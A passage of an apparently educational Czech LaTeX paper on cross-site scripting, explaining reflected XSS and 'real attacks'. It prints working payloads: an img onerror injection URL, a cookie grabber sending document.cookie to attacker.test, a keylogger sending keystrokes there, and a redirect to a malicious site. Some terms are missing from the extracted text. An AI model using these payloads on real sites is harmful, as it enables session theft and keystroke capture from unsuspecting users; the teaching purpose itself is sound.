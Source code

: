 \documentclass[11pt, conference, a4paper]{IEEEtran}
\begin{document}
Kód z~výpisu \ref{lst6} získá uživatelská data z~URL parametru \texttt{input} a~vloží je do HTML prvku \texttt{body}. V~tomto případě však nelze plně použít URL z~výpisu \ref{lst2}, jelikož by se script pouze vložil, ale dále nespustil. 

\begin{figure}[H]
\begin{lstlisting}[
  caption=Ukázka URL pro výpis \ref{lst6},
  label=lst7,]
http://site/input?<img src=x onerror="MC">
\end{lstlisting}
\end{figure}

V příkladu URL z~výpisu \ref{lst7} je použit HTML tag \texttt{img}, který při správném použití může spustit JavaScript. 


\subsection{Reálné útoky}
Nejjednodušším příkladem reálného útoku je tzv. \mbox{}, který získá cookies uživatele a~pošle jej pomocí HTTP dotazu na útočníkův server. Tento útok je možno realizovat libovolným typem XSS.

\begin{figure}[H]
\begin{lstlisting}[
  caption=Cookie grabber,
  label=lst1:cg,]
<script type="text/javascript">
var address = 'http://attacker.test?cakemonster=' + escape(document.cookie);
fetch(address);
</script>
\end{lstlisting}
\end{figure}


Pokud chce útočník zaznamenávat, co uživatel na stránce píše, může to udělat pomocí takzvaného .  z~výpisu \ref{lst1:kl} používá místo \texttt{script} tagu \texttt{img} tag.

\begin{figure}[H]
\begin{lstlisting}[
  caption=Keylogger,
  label=lst1:kl,]
<img src=x onerror='document.onkeypress = function(e) { fetch (http:///attacker.test?k=" + String.fromCharCode(e.which))}, this.remove();'>
\end{lstlisting}
\end{figure}


Přesměrování na útočníkovu stránku pomocí XSS také není vůbec nic složitého.

\begin{figure}[H]
\begin{lstlisting}[
  caption=Přesměrování na útočníkovu stránku,
  label=lst1:redirection,]
<script>
    window.location.href = "https://malicious-site.com";
</script>
\end{lstlisting}
\end{figure}
\end{document}
